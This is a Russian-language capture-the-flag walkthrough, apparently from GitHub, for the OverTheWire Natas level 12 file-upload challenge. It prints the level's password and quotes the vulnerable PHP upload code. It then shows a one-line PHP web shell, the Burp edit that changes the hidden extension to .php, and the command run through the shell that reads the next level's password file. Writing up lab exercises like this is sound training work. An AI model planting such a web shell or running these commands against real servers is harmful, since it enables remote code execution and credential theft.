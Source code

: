 Natas12

login:natas12
password:EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3

1) При посещении главной страницы есть возможность загрузить картинку (не более 1кб). Так же есть возможность посмотреть исходный код(View sourcecode)
![изображение](https://user-images.githubusercontent.com/54982244/173202831-8edbf58a-d2f6-4e00-83cf-2b5496f87d71.png)
2) В исходном коде можно увидить такой код:


        <? 
        function genRandomString() {
            $length = 10;
            $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
            $string = "";    

            for ($p = 0; $p < $length; $p++) {
                $string .= $characters[mt_rand(0, strlen($characters)-1)];
            }

            return $string;
        }

        function makeRandomPath($dir, $ext) {
            do {
            $path = $dir."/".genRandomString().".".$ext;
            } while(file_exists($path));
            return $path;
        }

        function makeRandomPathFromFilename($dir, $fn) {
            $ext = pathinfo($fn, PATHINFO_EXTENSION);
            return makeRandomPath($dir, $ext);
        }

        if(array_key_exists("filename", $_POST)) {
            $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);


                if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
                echo "File is too big";
            } else {
                if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
                    echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
                } else{
                    echo "There was an error uploading the file, please try again!";
                }
            }
        } else {
        ?> 
    
    
3) Попробуем разобратся. Данные передаются с помощью post запроса. Следующем шагом идет вызов функции makeRandomPathFromFilename. В ней нашему загружаему
файлу присваевается расширения на основе, имени файла. Только вот имя НАШЕГО загружаемого файла никак не влияет на это, так как расширение извлекается из
скрытого параметра 

        <input type="hidden" name="filename" value="v28ho0ti1k.jpg" /> 
        
и так как в value указано расширение jpg, любым файлам которые мы загружаем 
будет присвоено расширение .jpg
![изображение](https://user-images.githubusercontent.com/54982244/173203061-5d3b9f7c-8377-4ae3-b176-7cce0f4a55da.png)

          function makeRandomPathFromFilename($dir, $fn) {
              $ext = pathinfo($fn, PATHINFO_EXTENSION);
              return makeRandomPath($dir, $ext);
          }
 
3)Фактический это означает что никакой проверки расширения нет, можно загрузить файл с любым расширением, но перед этим поменять значение value в скрытом
параметре. Напишем такой php код

    <?php
    system($_GET['cmd']);
    ?>
    
Простое выполнение системной команды переданной в GET параметр cmd.

4)Перехватываем запрос через burp, меняем расширение в скрытом параметре с .jpg на .php
![изображение](https://user-images.githubusercontent.com/54982244/173203390-a12fee46-ff8e-4264-9507-c1f06b6a19f3.png)
5)Отправляем запрос дальше, и получаем ссылку на наш php файл.
![изображение](https://user-images.githubusercontent.com/54982244/173203412-fa1ae266-20cd-47cb-ac26-6282ee510284.png)
6)Переходим к нашему php файлу, передаем GET параметр ?cmd=id (Системная команда). Таким образом с помощью загрузки файла удалось достичь 
удаленого выполнения кода. 
![изображение](https://user-images.githubusercontent.com/54982244/173203437-1c64bce7-eac9-438a-8e8e-28b20b26e413.png)
7) Осталось прочитать пароль для следующего уровня. ?cmd=cat%20/etc/natas_webpass/natas13
![изображение](https://user-images.githubusercontent.com/54982244/173203506-7d7c5c51-dc09-4e45-8143-fad3b0f0a51d.png)



 

